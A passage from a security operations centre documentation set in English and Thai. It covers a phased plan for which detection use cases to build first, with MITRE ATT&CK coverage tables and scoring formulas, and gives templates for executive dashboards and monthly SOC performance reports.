| 5 | Bulk file rename (ransomware) | EDR / Sysmon | `file_bulk_renaming_ransomware` | PB-02 | 🔴 P1 |
| 6 | New admin account created | AD | `win_new_admin_account` | PB-07 | 🟡 P2 |
| 7 | Security log cleared | Windows | `win_security_log_cleared` | PB-20 | 🟡 P2 |
| 8 | Login outside business hours | AD / Azure AD | `cloud_unusual_login` | PB-05 | 🟡 P2 |
| 9 | Suspicious email forwarding rule | M365 | `cloud_email_inbox_rule` | PB-17 | 🟡 P2 |
| 10 | Connection to known-bad IP | Firewall / Proxy | (custom rule) | PB-13 | 🟡 P2 |

### Metrics to Track
- How many alerts per day? (Target: < 50 for 1 analyst)
- False positive rate? (Accept < 60% in Phase 1, tune to < 40%)
- Mean time from alert to triage? (Target: < 30 min)

---

## Phase 2: Extended Coverage (Month 4–6)

**Goal:** Catch lateral movement, persistence, and cloud-specific threats.

### Add These 10 Rules

| # | Use Case | Log Source | Playbook | Priority |
|:---:|:---|:---|:---|:---:|
| 11 | Admin share access (lateral movement) | Sysmon/EDR | PB-12 | 🟡 P2 |
| 12 | Service installed (persistence) | Windows | PB-11 | 🟡 P2 |
| 13 | Encoded PowerShell execution | Sysmon | PB-11 | 🟡 P2 |
| 14 | DNS to suspicious TLD | DNS logs | PB-24 | 🟡 P2 |
| 15 | Large data upload (exfiltration) | Proxy / DLP | PB-08 | 🟡 P2 |
| 16 | Cloud IAM privilege escalation | CloudTrail / Azure | PB-16 | 🟡 P2 |
| 17 | Scheduled task created remotely | Sysmon | PB-12 | 🟢 P3 |
| 18 | Process injection (lsass.exe access) | Sysmon | PB-11 | 🟢 P3 |
| 19 | USB mass storage connected | EDR | PB-14 | 🟢 P3 |
| 20 | Failed MFA attempts (>5) | Azure AD | PB-26 | 🟢 P3 |

### New Log Sources to Add
- DNS resolver logs
- Cloud audit logs (CloudTrail/Azure Activity)
- Proxy/web gateway logs
- DLP if available

---

## Phase 3: Advanced Detection (Month 7–12)

**Goal:** Catch sophisticated, targeted attacks and insider threats.

### Add These 10 Rules

| # | Use Case | Log Source | Playbook | Priority |
|:---:|:---|:---|:---|:---:|
| 21 | Beaconing detection (regular intervals) | Proxy/NDR | PB-13 | 🟢 P3 |
| 22 | DNS tunneling (high-volume/long domains) | DNS | PB-24 | 🟢 P3 |
| 23 | S3/Blob made public | CloudTrail/Azure | PB-27 | 🟢 P3 |
| 24 | Shadow IT / unauthorized SaaS | Proxy/CASB | PB-29 | 🟢 P3 |
| 25 | Kerberoasting (SPN request anomaly) | AD | PB-15 | 🟢 P3 |
| 26 | DCSync (replication request) | AD | PB-15 | 🟢 P3 |
| 27 | Token/cookie theft (AiTM) | Azure AD | PB-26 | 🟢 P3 |
| 28 | DLL side-loading | EDR/Sysmon | PB-11 | ⚪ P4 |
| 29 | WMI remote execution | Sysmon | PB-12 | ⚪ P4 |
| 30 | OT/ICS protocol anomaly | OT network | PB-30 | ⚪ P4 |

---

## Phase 4: Threat Hunting (Year 2+)

Move from **alert-driven** to **hypothesis-driven** detection:

| Hunt Hypothesis | Data Needed | Frequency |
|:---|:---|:---:|
| "Are there compromised service accounts?" | AD auth logs, UEBA | Monthly |
| "Is anyone beaconing to C2?" | Proxy + DNS statistical analysis | Weekly |
| "Are VPN credentials shared or stolen?" | VPN logs + geolocation | Monthly |
| "Is sensitive data leaving the network?" | DLP + proxy + cloud storage | Weekly |
| "Are there dormant admin accounts?" | AD account audit | Monthly |
| "Are there unknown web shells on servers?" | Filesystem scan + YARA | Monthly |

---

## Use Case Template

When creating a new detection use case:

```markdown
## UC-[###]: [Use Case Name]

### Objective
What are we trying to detect?

### MITRE ATT&CK
- Technique: T[####]
- Tactic: [Initial Access / Execution / Persistence / ...]

### Data Sources Required
- [ ] Source 1 (event IDs or log types)
- [ ] Source 2

### Detection Logic
```
IF [condition]
AND [condition]
WITHIN [timeframe]
THEN alert_level = [low/medium/high/critical]
```

### Playbook
Reference: PB-[##]

### False Positive Scenarios
- [Expected benign behavior that may trigger this]
- [How to filter/whitelist]

### Tuning Notes
- Threshold: [initial value]
- Whitelist: [IPs/users/hosts to exclude]
- Review after: [2 weeks of baseline data]
```

---

## Coverage Heat Map

Track your detection coverage across MITRE tactics:

| Tactic | Phase 1 | Phase 2 | Phase 3 | Phase 4 |
|:---|:---:|:---:|:---:|:---:|
| Initial Access | ✅ | ✅ | ✅ | ✅ |
| Execution | ✅ | ✅ | ✅ | ✅ |
| Persistence | ⚠️ | ✅ | ✅ | ✅ |
| Privilege Escalation | ⚠️ | ✅ | ✅ | ✅ |
| Defense Evasion | ❌ | ⚠️ | ✅ | ✅ |
| Credential Access | ⚠️ | ⚠️ | ✅ | ✅ |
| Discovery | ❌ | ⚠️ | ⚠️ | ✅ |
| Lateral Movement | ❌ | ✅ | ✅ | ✅ |
| Collection | ❌ | ⚠️ | ✅ | ✅ |
| Exfiltration | ❌ | ⚠️ | ✅ | ✅ |
| Impact | ✅ | ✅ | ✅ | ✅ |

✅ = Covered | ⚠️ = Partial | ❌ = Not yet

---

## Prioritization Scoring Formula

If you need to prioritize beyond this guide, score each use case:

```
Score = (Likelihood × 3) + (Impact × 3) + (Data Readiness × 2) + (Effort × 2)

Likelihood:     1 (rare) to 5 (happens weekly)
Impact:         1 (low) to 5 (business-critical)
Data Readiness: 1 (no data source) to 5 (data already in SIEM)
Effort:         1 (weeks to build) to 5 (deploy in hours)

Score range: 10-50 → Start with highest scoring use cases
```

---

## Related Documents

- [SOC Building Roadmap](SOC_Building_Roadmap.en.md)
- [Detection Rules Index](../08_Detection_Engineering/README.md)
- [Log Source Onboarding](../06_Operations_Management/Log_Source_Onboarding.en.md)
- [MITRE ATT&CK Heatmap](../tools/mitre_attack_heatmap.html)


---

## File: 01_SOC_Fundamentals/Use_Case_Prioritization.th.md

# ลำดับความสำคัญ Detection Use Case — ตรวจจับอะไรก่อน

> **รหัสเอกสาร:** UC-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **เงื่อนไข:** ติดตั้ง SIEM แล้ว, มี log source ≥3

---

## ปัญหา

มี detection rules นับพัน deploy ทีเดียวไม่ได้ คู่มือนี้บอกว่า **ตรวจจับอะไรก่อน** ตามข้อมูลภัยจริง

---

## MITRE ATT&CK Top 10 (เทคนิคที่พบบ่อยสุด)

| ลำดับ | เทคนิค | คืออะไร | ความถี่ |
|:---:|:---|:---|:---:|
| 1 | Phishing (T1566) | Email อันตราย | 🔴🔴🔴 |
| 2 | Valid Accounts (T1078) | Credential ถูกขโมย | 🔴🔴🔴 |
| 3 | PowerShell/Script (T1059) | ใช้ script โจมตี | 🔴🔴 |
| 4 | Brute Force (T1110) | เดารหัสผ่าน | 🔴🔴 |
| 5 | Ransomware (T1486) | เข้ารหัสไฟล์เรียกค่าไถ่ | 🔴🔴 |

---

## เฟส 1: พื้นฐาน (เดือน 1–3) — 10 Rules แรก

| # | Use Case | Playbook | ความสำคัญ |
|:---:|:---|:---|:---:|
| 1 | Failed login > 10 ครั้ง/5 นาที | PB-04 | 🔴 |
| 2 | Login จากสถานที่เป็นไปไม่ได้ | PB-06 | 🔴 |
| 3 | Office เปิด PowerShell | PB-01 | 🔴 |
| 4 | Malware execute สำเร็จ | PB-03 | 🔴 |
| 5 | ไฟล์ถูกเปลี่ยนชื่อจำนวนมาก (ransomware) | PB-02 | 🔴 |
| 6 | สร้าง admin account ใหม่ | PB-07 | 🟡 |
| 7 | ลบ Security log | PB-20 | 🟡 |
| 8 | Login นอกเวลาทำงาน | PB-05 | 🟡 |
| 9 | สร้าง email forwarding rule | PB-17 | 🟡 |
| 10 | เชื่อมต่อ IP อันตราย | PB-13 | 🟡 |

---

## เฟส 2: ขยาย (เดือน 4–6) — เพิ่ม 10 Rules

| # | Use Case | Playbook |
|:---:|:---|:---|
| 11 | Lateral movement (admin share) | PB-12 |
| 12 | ติดตั้ง service ใหม่ (persistence) | PB-11 |
| 13 | Encoded PowerShell | PB-11 |
| 14 | DNS ไปโดเมนน่าสงสัย | PB-24 |
| 15 | Upload ข้อมูลขนาดใหญ่ | PB-08 |
| 16 | Cloud privilege escalation | PB-16 |
| 17–20 | Scheduled task, process injection, USB, MFA fail | PB-11–26 |

---

## เฟส 3: ขั้นสูง (เดือน 7–12) — เพิ่ม 10 Rules

| # | Use Case | Playbook |
|:---:|:---|:---|
| 21 | Beaconing (C2 callback) | PB-13 |
| 22 | DNS tunneling | PB-24 |
| 23 | Cloud storage เป็น public | PB-27 |
| 24 | Shadow IT | PB-29 |
| 25–30 | Kerberoasting, DCSync, AiTM, DLL sideload, WMI, OT/ICS | PB-15–30 |

---

## เฟส 4: Threat Hunting (ปีที่ 2+)

| สมมติฐาน | ความถี่ |
|:---|:---:|
| มี service account ถูกยึดไหม? | รายเดือน |
| มีใคร beacon ไป C2? | รายสัปดาห์ |
| ข้อมูลสำคัญรั่วไหลไหม? | รายสัปดาห์ |
| มี web shell ซ่อนอยู่ไหม? | รายเดือน |

---

## สูตรให้คะแนนลำดับ

```
คะแนน = (ความเป็นไปได้ × 3) + (ผลกระทบ × 3) + (ข้อมูลพร้อม × 2) + (ความง่าย × 2)

ช่วง: 10–50 → เริ่มจากคะแนนสูงสุด
```

---

## ตาราง Coverage

| Tactic | เฟส 1 | เฟส 2 | เฟส 3 | เฟส 4 |
|:---|:---:|:---:|:---:|:---:|
| Initial Access | ✅ | ✅ | ✅ | ✅ |
| Execution | ✅ | ✅ | ✅ | ✅ |
| Persistence | ⚠️ | ✅ | ✅ | ✅ |
| Lateral Movement | ❌ | ✅ | ✅ | ✅ |
| Exfiltration | ❌ | ⚠️ | ✅ | ✅ |
| Impact | ✅ | ✅ | ✅ | ✅ |

---

## Prioritization Matrix

### Risk-Based Scoring

| ปัจจัย | น้ำหนัก | 1 (ต่ำ) | 2 (กลาง) | 3 (สูง) |
|:---|:---:|:---|:---|:---|
| **Threat Likelihood** | 30% | ไม่ค่อยพบ | พบบ้าง | พบบ่อย |
| **Business Impact** | 30% | ผลกระทบต่ำ | กระทบบริการ | กระทบรายได้/ชื่อเสียง |
| **Data Availability** | 20% | ไม่มี log | มีบาง log | มีครบ |
| **Detection Feasibility** | 20% | ยากมาก | ทำได้แต่ซับซ้อน | ทำได้ง่าย |

### คำนวณ Priority Score

```
Score = (Likelihood × 0.3) + (Impact × 0.3) + (Data × 0.2) + (Feasibility × 0.2)

Priority:
  2.5–3.0 = P1 (ดำเนินการภายใน 1 สัปดาห์)
  2.0–2.4 = P2 (ภายใน 1 เดือน)
  1.5–1.9 = P3 (ภายใน 1 ไตรมาส)
  1.0–1.4 = P4 (Backlog)
```

## Use Case Development Template

| ฟิลด์ | คำอธิบาย |
|:---|:---|
| **UC ID** | UC-YYYY-NNN |
| **ชื่อ** | [ชื่อ Use Case] |
| **MITRE Technique** | [TID — ชื่อ] |
| **Log Sources ที่ต้องใช้** | [ระบุ] |
| **Detection Logic** | [Sigma rule / query] |
| **False Positive Cases** | [ระบุ FP ที่คาดว่าจะเกิด] |
| **Response Playbook** | [ลิงก์ไปยัง playbook] |
| **Priority** | [P1/P2/P3/P4] |

## Coverage Dashboard

| MITRE Tactic | Techniques ทั้งหมด | ครอบคลุม | Gap |
|:---|:---:|:---:|:---:|
| Initial Access | 9 | [X] | [X] |
| Execution | 12 | [X] | [X] |
| Persistence | 19 | [X] | [X] |
| Privilege Escalation | 13 | [X] | [X] |
| Defense Evasion | 42 | [X] | [X] |
| Credential Access | 17 | [X] | [X] |
| Lateral Movement | 9 | [X] | [X] |
| Exfiltration | 9 | [X] | [X] |
| Impact | 13 | [X] | [X] |

## Use Case Scoring Model

### Risk-based Prioritization

| Factor | Weight | Score (1-5) | คำอธิบาย |
|:---|:---|:---|:---|
| Business Impact | 30% | 1-5 | ผลกระทบต่อธุรกิจ |
| Threat Likelihood | 25% | 1-5 | โอกาสเกิดภัย |
| Detection Capability | 20% | 1-5 | ความสามารถตรวจจับ |
| Data Availability | 15% | 1-5 | มี log source หรือไม่ |
| Effort to Implement | 10% | 1-5 | ความยากในการสร้าง |

### Use Case Lifecycle

```mermaid
flowchart LR
    A[Propose] --> B[Evaluate]
    B --> C[Develop]
    C --> D[Test]
    D --> E[Deploy]
    E --> F[Monitor]
    F --> G[Tune]
    G --> F
```

### Use Case Quick-Start Templates

| Use Case | Log Source | Rule Logic | Priority |
|:---|:---|:---|:---|
| Brute Force | AD/LDAP | > 10 failed/5min | High |
| Privilege Escalation | Windows Event | 4672 + 4688 | Critical |
| Data Exfiltration | Proxy/DLP | Upload > threshold | High |
| Suspicious DNS | DNS logs | Entropy > 3.5 | Medium |
| Malware Detection | EDR | Known hash/behavior | Critical |

### Use Case Retirement Criteria
- False positive rate > 60% หลัง tuning
- Log source ถูกยกเลิกใช้งาน
- ซ้ำซ้อนกับ rule อื่น
- ไม่เคย trigger ใน 6 เดือน

### Quick Wins Identification

| Criteria | Description |
|:---|:---|
| High impact + Low effort | Deploy first |
| Existing log source | No new onboarding |
| Known TTP coverage | MITRE mapped |
| Template available | Pre-built rule |

## เอกสารที่เกี่ยวข้อง

- [แผนงานสร้าง SOC](SOC_Building_Roadmap.th.md)
- [ดัชนี Detection Rules](../08_Detection_Engineering/README.th.md)
- [แผนที่ MITRE ATT&CK](../tools/mitre_attack_heatmap.html)


---

## File: 11_Reporting_Templates/Executive_Dashboard.en.md

# SOC Executive Dashboard Template

> **Document ID:** EXEC-DASH-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Owner:** SOC Manager  
> **Audience:** CISO, VP Security, C-Suite, Board

---

## Purpose

This template defines the metrics and visualizations for a SOC executive dashboard. Designed to communicate SOC value and posture to non-technical leadership in a concise, visual format.

---

## Dashboard Layout

```
┌──────────────────────────────────────────────────────────┐
│  🛡️ SOC Executive Dashboard — [Month Year]               │
├──────────────┬──────────────┬──────────────┬─────────────┤
│  Total       │  Incidents   │  MTTD        │  MTTR       │
│  Alerts      │  Handled     │  (Detect)    │  (Respond)  │
│  ████        │  ████        │  ████        │  ████       │
│  vs last mo. │  vs last mo. │  vs last mo. │ vs last mo. │
├──────────────┴──────────────┴──────────────┴─────────────┤
│  📊 Alert Trend (30 days)                                │
│  ▁▂▃▄▅▆▇█▇▆▅▄▃▂▁▂▃▄▅▆▇█▇▆▅▄▃▂▁                        │
├──────────────────────────┬───────────────────────────────┤
│  🎯 Severity Breakdown   │  📈 Top 5 Alert Categories    │
│  P1: ██░░░  3            │  1. Phishing        150      │
│  P2: ████░  8            │  2. Brute Force      89      │
│  P3: ██████ 42           │  3. Malware          67      │
│  P4: ██████ 120          │  4. Suspicious Login 45      │
│                          │  5. Data Exfil       23      │
├──────────────────────────┴───────────────────────────────┤
│  🗺️ MITRE ATT&CK Coverage    │  SLA Compliance            │
│  [Heatmap visualization]      │  P1: ✅ 100% met           │
│                               │  P2: ✅ 95% met            │
│                               │  P3: ⚠️ 87% met           │
└──────────────────────────┴────────────────────────────────┘
```

---

## Metrics Definitions

### Tier 1: KPIs (Always Show)

| Metric | Definition | Target | How to Present |
|:---|:---|:---:|:---|
| **Total Alerts** | Alerts ingested in period | — | Number + % change from last period |
| **Incidents Handled** | Alerts escalated to incidents | — | Number + trend arrow |
| **MTTD** (Mean Time to Detect) | Time from attack start to SOC detection | ≤ 60 min | Number + green/red indicator |
| **MTTR** (Mean Time to Respond) | Time from detection to containment | ≤ 4 hrs | Number + green/red indicator |
| **SLA Compliance** | % incidents meeting SLA by severity | ≥ 95% | % per severity level |
| **False Positive Rate** | % alerts confirmed as false positive | ≤ 30% | % + trend |

### Tier 2: Operational Insights (Show when available)

| Metric | Definition | Target |
|:---|:---|:---:|
| **Alert-to-Incident Ratio** | % of alerts that become real incidents | 10–30% |
| **Escalation Rate** | % incidents escalated from T1 to T2 | 20–40% |
| **Reopened Incidents** | Incidents reopened after close | ≤ 5% |
| **Automation Rate** | % alerts handled by SOAR (no human touch) | ≥ 40% |
| **Coverage Hours** | SOC operational hours / total hours | 24/7 = 100% |

### Tier 3: Strategic (Monthly/Quarterly)

| Metric | Definition | Target |
|:---|:---|:---:|
| **MITRE ATT&CK Coverage** | % of relevant techniques with detection rules | ≥ 70% |
| **Detection Rule Count** | Active detection rules | Growing |
| **Log Source Coverage** | % of critical assets sending logs | ≥ 95% |
| **Threat Intel Indicators** | Active IOCs in watchlists | Growing |
| **Cost per Incident** | Total SOC cost ÷ incidents handled | Declining |
| **Staff Utilization** | Active work time ÷ total shift time | 60–80% |

---

## Monthly Executive Summary Template

```markdown
# SOC Monthly Report — [Month Year]

## Key Highlights
- ✅ [Top achievement — e.g., "Detected and contained ransomware attempt in 22 minutes"]
- ⚠️ [Notable concern — e.g., "Phishing attempts increased 34% month-over-month"]
- 🔄 [Improvement — e.g., "New SOAR playbook reduced MTTR for brute force by 60%"]

## By the Numbers
| Metric | This Month | Last Month | Trend |
|:---|:---:|:---:|:---:|
| Total Alerts | 4,521 | 4,102 | ↑ 10% |
| Confirmed Incidents | 173 | 156 | ↑ 11% |
| MTTD | 38 min | 45 min | ✅ ↓ |
| MTTR | 3.2 hrs | 4.1 hrs | ✅ ↓ |
| SLA Compliance | 96% | 93% | ✅ ↑ |
| FP Rate | 22% | 28% | ✅ ↓ |

## Notable Incidents
| Date | ID | Type | Severity | Impact | Resolution |
|:---|:---|:---|:---:|:---|:---|
| MM-DD | INC-001 | Ransomware | P1 | 0 systems lost | Isolated in 22 min |

## Recommendations
1. [Budget/tool request if any]
2. [Staffing recommendation if any]
3. [Process improvement planned]

## Next Month Focus
- [ ] [Key initiative 1]
- [ ] [Key initiative 2]
```

---

## Presentation Tips

```
📊 Executive Dashboard Best Practices:
1. Lead with business impact, not technical details
2. Use RED/AMBER/GREEN indicators — executives scan, don't read
3. Always show trends (up/down vs last period)
4. Keep to 1 page / 1 screen — less is more
5. Highlight wins AND risks — balanced view builds trust
6. Prepare 3 talking points before any meeting
7. Have drill-down data ready but don't show it unless asked
8. Translate "alerts" into "business risk prevented"
```

---

## KPI Definitions & Targets

| KPI | Definition | Formula | Target | RAG Thresholds |
|:---|:---|:---|:---|:---|
| **MTTD** | Mean Time to Detect | Avg(Detection Time - Event Time) | ≤ 60 min | 🟢≤60 🟡≤120 🔴>120 |
| **MTTR** | Mean Time to Respond | Avg(Response Time - Detection Time) | ≤ 240 min | 🟢≤240 🟡≤480 🔴>480 |
| **FP Rate** | False Positive Rate | FP Alerts / Total Alerts × 100 | ≤ 20% | 🟢≤20% 🟡≤35% 🔴>35% |
| **SLA Compliance** | % incidents resolved within SLA | On-time / Total × 100 | ≥ 95% | 🟢≥95% 🟡≥85% 🔴<85% |
| **Coverage** | MITRE ATT&CK technique coverage | Covered / Total × 100 | ≥ 60% | 🟢≥60% 🟡≥40% 🔴<40% |
| **Staffing** | Analyst utilization rate | Active Hours / Available × 100 | 60-80% | 🟢60-80% 🟡>80% 🔴>90% |

## RAG Status Dashboard Template

```markdown
## SOC Health Dashboard — [Date]

### Overall Status: 🟢 GREEN

| Domain | Status | Key Metric | Notes |
|:---|:---:|:---|:---|
| Detection | 🟢 | MTTD: 42 min | Within target |
| Response | 🟢 | MTTR: 180 min | Improving trend |
| Staffing | 🟡 | Utilization: 82% | 1 vacancy, hiring |
| Technology | 🟢 | Uptime: 99.8% | No major outages |
| Coverage | 🟡 | ATT&CK: 55% | 5 rules in development |
| Compliance | 🟢 | SLA: 97% | Exceeding target |
```

## Related Documents

- [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md)
- [Monthly SOC Report Template](../11_Reporting_Templates/Monthly_SOC_Report.en.md)
- [Quarterly Business Review](../11_Reporting_Templates/Quarterly_Business_Review.en.md)
- [SLA Template](../06_Operations_Management/SLA_Template.en.md)


---

## File: 11_Reporting_Templates/Executive_Dashboard.th.md

# แม่แบบ Dashboard สำหรับผู้บริหาร

> **รหัสเอกสาร:** EXEC-DASH-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **ผู้ใช้:** CISO, ผู้บริหาร, Board

---

## ตัวชี้วัดแนะนำ

### Tier 1: KPI หลัก (แสดงเสมอ)

| ตัวชี้วัด | คำจำกัดความ | เป้า | แสดง |
|:---|:---|:---:|:---|
| **Total Alerts** | Alert ทั้งหมดในช่วงเวลา | — | ตัวเลข + % เทียบเดือนก่อน |
| **Incidents** | Alert ที่เป็นเหตุจริง | — | ตัวเลข + ทิศทาง |
| **MTTD** | เวลาตรวจจับ | ≤ 60 นาที | เขียว/แดง |
| **MTTR** | เวลาตอบสนอง | ≤ 4 ชม. | เขียว/แดง |
| **SLA Compliance** | % ที่ผ่าน SLA | ≥ 95% | % ต่อ severity |
| **FP Rate** | % false positive | ≤ 30% | % + trend |

### Tier 2: Operational (เสริม)

| ตัวชี้วัด | เป้า |
|:---|:---:|
| Alert-to-Incident Ratio | 10–30% |
| Automation Rate (SOAR) | ≥ 40% |
| Escalation Rate | 20–40% |
| Coverage Hours | 24/7 |

### Tier 3: Strategic (รายเดือน/ไตรมาส)

| ตัวชี้วัด | เป้า |
|:---|:---:|
| MITRE ATT&CK Coverage | ≥ 70% |
| Log Source Coverage | ≥ 95% |
| Cost per Incident | ลดลง |

---

## แม่แบบสรุปรายเดือน

```markdown
# รายงาน SOC รายเดือน — [เดือน ปี]

## Highlights
- ✅ [ผลงานเด่น]
- ⚠️ [ข้อกังวล]
- 🔄 [การปรับปรุง]

## ตัวเลข
| ตัวชี้วัด | เดือนนี้ | เดือนก่อน | ทิศทาง |
|:---|:---:|:---:|:---:|
| Alerts | X,XXX | X,XXX | ↑/↓ X% |
| Incidents | XXX | XXX | |
| MTTD | XX นาที | XX นาที | |
| MTTR | X.X ชม. | X.X ชม. | |
| SLA | XX% | XX% | |

## เหตุการณ์สำคัญ
| วันที่ | ID | ประเภท | ระดับ | ผลกระทบ |
|:---|:---|:---|:---:|:---|

## ข้อเสนอ
1. ___
2. ___
```

---

## Tips การนำเสนอ

```
1. นำด้วย business impact ไม่ใช่ technical details
2. ใช้ เขียว/เหลือง/แดง — ผู้บริหารสแกน ไม่อ่าน
3. แสดง trend เทียบเดือนก่อนเสมอ
4. 1 หน้าจอ — น้อยกว่าคือดีกว่า
5. บอกทั้งผลงานและความเสี่ยง — สมดุลสร้างความเชื่อมั่น
6. เตรียม talking points 3 ข้อก่อนประชุม
7. มีข้อมูล drill-down พร้อม แต่ไม่แสดงจนกว่าถูกถาม
```

---

## Dashboard Panels

### Panel 1: Security Posture Score

| หมวด | คะแนน (1-10) | แนวโน้ม | สถานะ |
|:---|:---:|:---:|:---:|
| Detection Coverage | [X] | ↑ | 🟢 |
| Response Readiness | [X] | → | 🟡 |
| Vulnerability Mgmt | [X] | ↑ | 🟢 |
| Compliance | [X] | → | 🟡 |
| People & Training | [X] | ↓ | 🔴 |
| **Overall** | **[X.X]** | | |

### Panel 2: Threat Summary

| ประเภท | จำนวนเดือนนี้ | เทียบเดือนก่อน | แนวโน้ม |
|:---|:---:|:---:|:---:|
| Phishing attempts | [XX] | +/-[XX]% | ↑/↓ |
| Malware detections | [XX] | +/-[XX]% | ↑/↓ |
| Unauthorized access | [XX] | +/-[XX]% | ↑/↓ |
| Data incidents | [XX] | +/-[XX]% | ↑/↓ |

### Panel 3: Budget vs Spend

| หมวด | งบตั้ง | ใช้จริง | % ใช้ | คงเหลือ |
|:---|:---:|:---:|:---:|:---:|
| Personnel | [XX] ฿ | [XX] ฿ | [XX]% | [XX] ฿ |
| Technology | [XX] ฿ | [XX] ฿ | [XX]% | [XX] ฿ |
| Training | [XX] ฿ | [XX] ฿ | [XX]% | [XX] ฿ |
| **Total** | [XX] ฿ | [XX] ฿ | [XX]% | [XX] ฿ |

### Dashboard KPI Card Layout

| Card | Metric | Visualization | Target |
|:---|:---|:---|:---|
| 1 | MTTR | Gauge | < 4 hrs |
| 2 | Open Incidents | Counter | < 10 |
| 3 | Alert Volume (24h) | Sparkline | Trend ↓ |
| 4 | SLA Compliance | % Bar | > 95% |
| 5 | Detection Coverage | Heat map | > 60% |

### Stakeholder Access Matrix

| Role | Dashboard | Export | Customize |
|:---|:---|:---|:---|
| CISO | Full | ✅ | ✅ |
| Director | Summary | ✅ | ❌ |
| Analyst | Ops only | ❌ | ❌ |

## นิยาม KPI และเป้าหมาย

| KPI | นิยาม | สูตร | เป้าหมาย | เกณฑ์ RAG |
|:---|:---|:---|:---|:---|
| **MTTD** | เวลาเฉลี่ยตรวจจับ | Avg(เวลาตรวจจับ - เวลาเกิด) | ≤ 60 นาที | 🟢≤60 🟡≤120 🔴>120 |
| **MTTR** | เวลาเฉลี่ยตอบสนอง | Avg(เวลาตอบ - เวลาตรวจจับ) | ≤ 240 นาที | 🟢≤240 🟡≤480 🔴>480 |
| **FP Rate** | อัตรา False Positive | FP Alerts / Total × 100 | ≤ 20% | 🟢≤20% 🟡≤35% 🔴>35% |
| **SLA** | % incidents แก้ไขทัน SLA | ทัน / ทั้งหมด × 100 | ≥ 95% | 🟢≥95% 🟡≥85% 🔴<85% |
| **Coverage** | MITRE ATT&CK coverage | Covered / Total × 100 | ≥ 60% | 🟢≥60% 🟡≥40% 🔴<40% |
| **Staffing** | อัตราการใช้งาน analyst | ชม.ทำงาน / ชม.ว่าง × 100 | 60-80% | 🟢60-80% 🟡>80% 🔴>90% |

## Template Dashboard สถานะ RAG

```markdown
## SOC Health Dashboard — [วันที่]

### สถานะรวม: 🟢 เขียว

| ด้าน | สถานะ | ตัวชี้วัดหลัก | หมายเหตุ |
|:---|:---:|:---|:---|
| Detection | 🟢 | MTTD: 42 นาที | อยู่ในเป้า |
| Response | 🟢 | MTTR: 180 นาที | แนวโน้มดีขึ้น |
| กำลังคน | 🟡 | Utilization: 82% | ว่าง 1 ตำแหน่ง กำลังหา |
| เทคโนโลยี | 🟢 | Uptime: 99.8% | ไม่มีเหตุสำคัญ |
| Coverage | 🟡 | ATT&CK: 55% | 5 rules กำลังพัฒนา |
| Compliance | 🟢 | SLA: 97% | เกินเป้า |
```

## เอกสารที่เกี่ยวข้อง

- [ตัวชี้วัด SOC](../06_Operations_Management/SOC_Metrics.th.md)
- [รายงานรายเดือน](Monthly_SOC_Report.th.md)
- [รายงานรายไตรมาส](Quarterly_Business_Review.th.md)


---

## File: 11_Reporting_Templates/Monthly_SOC_Report.en.md

# Monthly SOC Performance Report

**Month**: [MM/YYYY]
**Prepared By**: [SOC Manager Name]
**Distribution**: CIO, CISO, IT Director

## 1. Executive Summary

```mermaid
graph LR
    Collect[Collect Metrics] --> Analyze[Analyze Trends]
    Analyze --> Draft[Draft Report]
    Draft --> Review[Manager Review]
    Review --> Distribute[Distribute to Execs]
```

*Provide a 3-5 sentence summary of the SOC's performance this month. Highlight any major incidents or achievements.*

## 2. Key Performance Indicators (KPIs)

| Metric | Target | Actual | Status | Trend |
| :--- | :--- | :--- | :--- | :--- |
| **MTTD** (Mean Time To Detect) | < 30 Mins | [XX] Mins | [🟢/🔴] | [↑/↓/→] |
| **MTTR** (Mean Time To Respond) | < 60 Mins | [XX] Mins | [🟢/🔴] | [↑/↓/→] |
| **MTTC** (Mean Time To Contain) | < 4 Hrs | [XX] Hrs | [🟢/🔴] | [↑/↓/→] |
| **Total Alerts Processed** | N/A | [XXXX] | N/A | [↑/↓/→] |
| **Valid Incidents** | N/A | [XX] | N/A | [↑/↓/→] |
| **False Positive Rate** | < 10% | [XX]% | [🟢/🔴] | [↑/↓/→] |
| **SLA Compliance** | > 95% | [XX]% | [🟢/🔴] | [↑/↓/→] |
| **Escalation Rate (Tier1→Tier2)** | < 30% | [XX]% | [🟢/🔴] | [↑/↓/→] |

## 3. Incident Breakdown by Category

| Category | Count | Severity | MTTD | MTTR | Status |
| :--- | :---: | :--- | :--- | :--- | :--- |
| Phishing / BEC | [X] | [H/M/L] | [XX] min | [XX] min | Resolved |
| Malware / Ransomware | [X] | [H/M/L] | [XX] min | [XX] min | Resolved |
| Account Compromise | [X] | [H/M/L] | [XX] min | [XX] min | Resolved |
| Data Exfiltration / DLP | [X] | [H/M/L] | [XX] min | [XX] min | Resolved |
| Insider Threat | [X] | [H/M/L] | [XX] min | [XX] min | Resolved |
| Cloud / SaaS | [X] | [H/M/L] | [XX] min | [XX] min | Resolved |
| Other | [X] | [H/M/L] | [XX] min | [XX] min | Resolved |

## 4. Incident Highlights
*List the top 3 most significant incidents.*

### Incident #1: [Brief Title, e.g., CFO Phishing Attempt]
-   **Date**: [YYYY-MM-DD]
-   **Severity**: [Critical/High/Medium/Low]
-   **Impact**: [None / Data Loss / Downtime / Financial]
-   **MITRE ATT&CK**: [Technique ID]
-   **Resolution**: [Blocked sender, reset password]
-   **Root Cause**: [User error / Lack of MFA]
-   **Lessons Learned**: [What could be improved]

## 5. Alert Trend Analysis

```mermaid
xychart-beta
    title "Alert Volume by Week"
    x-axis ["Week 1", "Week 2", "Week 3", "Week 4"]
    y-axis "Alert Count" 0 --> 500
    bar [200, 250, 180, 300]
```

| Alert Source | This Month | Last Month | Change |
| :--- | :---: | :---: | :--- |
| EDR / Endpoint | [XXX] | [XXX] | [↑/↓] XX% |
| SIEM / Correlation | [XXX] | [XXX] | [↑/↓] XX% |
| Email Gateway | [XXX] | [XXX] | [↑/↓] XX% |
| Cloud Security (CASB/CSPM) | [XXX] | [XXX] | [↑/↓] XX% |
| Network (IDS/IPS/NDR) | [XXX] | [XXX] | [↑/↓] XX% |
| Identity (IdP) | [XXX] | [XXX] | [↑/↓] XX% |

## 6. Threat Landscape Analysis
*What trends are we seeing?*
-   [ ] Increase in Phishing attacks targeting HR.
-   [ ] Brute force attempts against VPN.
-   [ ] New malware variants observed in sandbox.
-   [ ] Cloud misconfigurations increasing.

